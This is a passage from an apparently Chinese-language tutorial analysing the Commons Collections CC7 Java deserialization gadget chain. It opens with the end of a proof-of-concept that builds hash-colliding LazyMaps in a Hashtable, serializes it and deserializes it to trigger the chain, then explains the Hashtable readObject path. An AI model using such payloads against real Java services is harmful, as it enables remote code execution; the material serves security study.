 ```java
        Map lazyMap1 = LazyMap.decorate(innerMap1, transformerChain);
        lazyMap1.put("yy", 1);


        Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
        lazyMap2.put("zZ", 1);
        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 2);

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        lazyMap2.remove("yy");
        // ==================
        // 生成序列化字符串
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(hashtable);
        oos.close();

        // 本地测试触发
        // System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object) ois.readObject();
    }
}
```

![image-20220719161147842](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220719161147842.png)

## 调试分析

### Hashtable

Hashtable 与 HashMap 十分相似，是一种 key-value 形式的哈希表，但仍然存在一些区别：

- HashMap 继承 AbstractMap，而 Hashtable 继承 Dictionary ，可以说是一个过时的类。
- 两者内部基本都是使用“数组-链表”的结构，但是 HashMap 引入了红黑树的实现。
- Hashtable 的 key-value 不允许为 null 值，但是 HashMap 则是允许的，后者会将 key=null 的实体放在 index=0 的位置。
- Hashtable 线程安全，HashMap 线程不安全。

Hashtable 的 readObject 方法中，最后调用了 `reconstitutionPut` 方法将反序列化得到的 key-value 放在内部实现的 Entry 数组 table 里。这里的key与value就是我们自己存进去的。

![image-20220719161736069](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220719161736069.png)



如果这里hash与之前某个存入的相等那就会调用其`equals`方法。
